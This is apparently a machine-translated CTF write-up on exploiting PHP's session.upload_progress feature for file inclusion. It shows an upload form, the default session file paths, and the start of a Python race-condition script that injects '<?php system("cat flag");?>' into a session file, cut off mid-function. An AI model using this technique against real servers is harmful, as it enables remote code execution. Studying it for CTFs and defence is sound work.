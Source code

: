 ```html
// PHPSESSION = H3rmesk1t
<form action="upload.php" method="POST" enctype="multipart/form-data">
 <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="D1no" />
 <input type="file" name="file1" />
 <input type="file" name="file2" />
 <input type="submit" />
</form>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527171251145.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Through the above figure and the introduction of several default options, I want to use session.upload_progress to write malicious statements and then include files, but the prerequisite is that you need to know the storage location of the session.upload_progress

The storage mechanism of session in PHP:
- The content in the session in php is not stored in memory, but is stored in the form of a file. The storage method is determined by the configuration item `session.save_handler`. The default is to be stored in the form of a file. The name of the stored file is named by the `sess_sessionid`. The content of the file is the content after the session value is serialized. As for the storage path, it is determined by the configuration item `session.save_path`.

> Generally, the storage path of the session will not be changed much, the default is:
- linux: /tmp or /var/lib/php/session
- Windows: C:\WINDOWS\Temp

>I know the storage path, but since there is no session_start() function in the code, the session file cannot be created; in fact, if the configuration item session.auto_start=On is open, then PHP will automate the session when receiving the request, and no longer need to execute the function, but it is closed by default. There is also a default option in the session, which is the default value of session.use_strict_mode mentioned above is 0, and users can define the SessionID by themselves.

```php
Settings in cookies:
PHPSESSID = H3rmesk1t
PHP will create a file on the server (default path)
/tmp/sess_H3rmesk1t

Even if the user does not initialize the Session at this time, PHP will automatically initialize the Session.
And generate a key value, which consists of ini.get("session.upload_progress.prefix") + the session.upload_progress.name value we construct, and is finally written to the sess_file
```

There is another problem that has not been solved. The default configuration session.upload_progress.cleanup = on causes the content of the session file to be cleared immediately after the file is uploaded. Therefore, it is necessary to use multiple threads to write and read at the same time, conduct conditional competition, and include and utilize before the session file is cleared.

```python
import requests
import io
import threading

url = 'http://xxx.xxx.xx.xx:80/H3rmesk1t/demo.php'
sessID = 'H3rmesk1t'

def write(session):
    #Judge whether the event flag is True
    While event.isSet():
        #Uploading files is larger, which is more conducive to conditional competition
        f = io.BytesIO(b'H3rmesk1t' * 1024 * 50)
        reponse = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("cat flag");?>'},
            files={'file':('text.txt',f)}
```